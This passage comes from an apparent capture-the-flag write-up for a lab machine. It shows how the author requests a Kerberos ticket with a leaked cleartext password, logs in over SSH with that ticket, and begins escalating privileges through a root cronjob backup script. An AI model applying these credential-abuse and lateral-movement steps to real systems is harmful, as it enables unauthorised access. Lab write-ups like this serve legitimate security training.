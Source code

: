 ![](/assets/img/tentacle/18.png)


from now we can request ticket-granting-ticket (TGT) using `kinit` with following command:

```bash
#matching time with Domain Controller
ntpdate 10.10.10.224

#request TGT
echo "sJB}RM>6Z~64_" | kinit j.nakazawa

#for listing ticket
klist
```

![](/assets/img/tentacle/19.png)


as you can see we able to create ticket, and log in into ssh with following command:

```bash
ssh -K j.nakazawa@10.10.10.224
````

![](/assets/img/tentacle/20.png)


## Escalate admin

during the enumeration process, i found cronjob running bash script in every minute

![](/assets/img/tentacle/21.png)


review code log_backup.sh:

```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```
